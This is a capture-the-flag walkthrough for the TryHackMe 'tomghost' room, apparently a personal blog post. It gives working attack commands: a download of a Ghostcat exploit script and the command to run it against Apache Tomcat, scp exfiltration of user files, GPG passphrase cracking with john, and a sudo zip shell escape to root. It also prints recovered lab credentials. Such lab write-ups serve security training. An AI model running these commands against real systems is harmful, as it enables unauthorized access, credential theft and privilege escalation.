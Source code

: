 ```yaml
---
layout: post
title: Walkthrough - tomghost
published: true
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

* * *

## Path to Machine

- ``nmap -T4 -p- 10.10.124.33 -vvv``

```shell
22/tcp   open  ssh
53/tcp   open  tcpwrapped syn-ack ttl 61
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
```

- Port 8080 has an apache tomcat container
- ``gobuster dir -u http://10.10.124.33:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,php,html --no-error``
- ``locate 49716``
- lets check out the pdf and learn about the exploit

## Ghostcat Exploitation

- ``wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py``
- this will read the XML file containing a users's ssh key
- ``python3 ajpShooter.py http://10.10.35.112:8080 8009 /WEB-INF/web.xml read``

![](/assets/tomghost01.png)

- skyfuck:8730281lkjlkjdqlksalks

- ``scp skyfuck@10.10.35.112:/home/skyfuck/* .`` to get the gpg file so we can use gpg2john to create a hash from the asc file.
- ``john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash`` = ``alexandru        (tryhackme)``

Now that we have the passphrase to decrtypt the gpg file, we can import the gpg key and then decrypt it.

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --import ./tryhackme.asc                                                     
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

and then...

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j  
```

Now we have the second user name and user credentials so we can ssh to login and then escalate to become root.


```shell
merlin@ubuntu:/tmp$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So we can run this to get root:

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

* * * 

## User.txt

- ``cat /home/merlin/user.txt``

* * * 

## Root.txt

- ``cat /root/root.txt``

* * * 